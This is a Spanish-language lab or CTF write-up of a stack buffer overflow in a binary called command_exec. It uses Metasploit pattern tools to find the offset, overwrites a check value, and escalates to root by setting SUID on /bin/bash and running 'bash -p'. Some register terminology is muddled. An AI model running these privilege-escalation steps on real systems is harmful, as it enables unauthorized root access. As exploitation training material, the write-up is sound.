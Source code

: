 El binario que tenemos es **command_exec**.
![[Pasted image 20250626141825.png]]
![[Pasted image 20250626142017.png]]
Vemos que al colocar muchos caracteres se produce una **Violación de segmento**, y al ver la key = 41414141, deducimos que el RIP se ha rellenado por la letra "A" , su valor Hexadecimal es "41".
Lo siguiente que haremos es crear un pattern con un módulo de Metasploit llamado **pattern_create.rb**, de 400 bytes, lo haremos de la siguiente forma:
```
/opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 400
```
El script devuelve lo siguiente:
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```
![[Pasted image 20250626142800.png]]
Podemos ver que la **key** (RIP) ahora tiene un valor diferente, **63413563**. Teniendo en cuenta este valor del RIP, buscaremos el byte exacto donde el programa crashea, buscaremos el offset. Para ello haremos uso del módulo de Metasploit llamado **pattern_offset.rb**, este módulo recibirá  la longitud del pattern que usamos anteriormente (**400**) y el RIP que obtuvimos (**63413563**). Lo ejecutaremos de la siguiente forma:
```
/opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -l 400 -q 63413563
```
![[Pasted image 20250626143534.png]]
Ahora que ya sabemos que el programa explota en el caracter **76**, probaremos modificar el RIP, los siguientes 4 chars. Para ello crearemos un pattern de 76 caracteres y agregaremos 4 chars para modificar el RIP, lo haremos de la siguiente forma:
```
 /opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 76
```
pattern de 76:
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4A
```
Probaremos modificar el RIP, con "BBBB" al final de la siguiente forma:
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4ABBBB
```
![[Pasted image 20250626144102.png]]
Vemos que la **key**=42424242, "42" es el valor de "B" en Hexadecimal.
Ahora que tenemos el **offset (76)**  y el **RIP (63413563)**. Crearemos un script en python que modifique la key, para que valga **dead**:
![[Pasted image 20250626151422.png]]
Este código, envía el patern de 76 bytes y modifica el RIP (es como el EIP pero para bins 64bits) para que valga **dead** pero en formato Little Endian, de la siguiente forma:
```
dead > ad de > \xad\xde
```
Al ejecutar el script, vemos lo siguiente:
![[Pasted image 20250626151657.png]]
El comando **whoami** se ha ejecutado satisfactoriamente, por lo tanto, podemos reemplazar el comando **whoami** por **chmod u+s /bin/bash** para brindarle privilegios SUID a la **bash** y asi poder escalar privilegios.
Nos llevamos el código a la maquina victima
![[Pasted image 20250626152214.png]]
Hacemos los cambios mencionados anteriormente
![[Pasted image 20250626152339.png]]
Ejecutamos el script:
![[Pasted image 20250626152518.png]]
Vemos que la **bash** ahora tiene privilegios **SUID**, ahora ejecutaremos el siguiente comando para escalar privilegios como root:
```
/bin/bash -p
```
![[Pasted image 20250626152641.png]]
